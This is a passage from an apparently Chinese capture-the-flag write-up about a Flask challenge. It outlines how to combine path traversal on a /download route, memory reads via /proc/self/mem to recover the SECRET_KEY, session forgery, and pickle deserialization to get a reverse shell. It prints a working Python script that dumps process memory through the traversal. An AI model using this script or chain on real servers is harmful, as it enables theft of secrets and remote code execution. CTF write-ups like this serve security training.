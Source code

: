 内容不多,就两个点:

1. `/download`路由可以指定文件和偏移进行文件内容读取
2. `/admin_pickle_load`路由会反序列化session中的data数据

所以我们要伪造session,那么首先就要获取`SECRET_KEY`,这里用的是内存读取

解题步骤就是

1. 根据`/proc/self/maps`获取内存情况然后从`/proc/self/mem`读取指定偏移的内存数据
2. 从内存中取出被作为`SECRET_KEY`的UUID
3. 伪造session
4. 将反弹shell的反序列化数据加入到session的data中
5. 监听端口接收反弹的shell

下载内存数据到`./save`目录下:

dump.py

```python
import os,requests,re

def dowload(file,offset=0,length=0):
    if offset:
        res=requests.get(f"{url}download?file=../../../../..{file}&offset={offset}&length={length}")
    else:
        res = requests.get(f"{url}download?file=../../../../..{file}")
    text=res.text
    return text

os.system("rm -rf ./save;mkdir save")
url=input("url:#")
for i in dowload("/proc/self/maps").split("\n"):
    if ".so" in i or "lib" in i or"python3" in i or"dev" in i:
        continue
    t = re.match(r"[0-9-abcdef]*", i)
    location = t.group().split("-")
    try:
        start, end="0x"+location[0],"0x"+location[1]
    except:
        continue
    print("./save/"+start+"-"+end)
    save = open(
        "./save/"+start+"-"+end,"wb"
    )
    save.write(
        dowload(
            "/proc/self/mem",
            str(int(start,16)),
            str(int(end,16)-int(start,16))
        ).encode()
    )
    save.close()
```

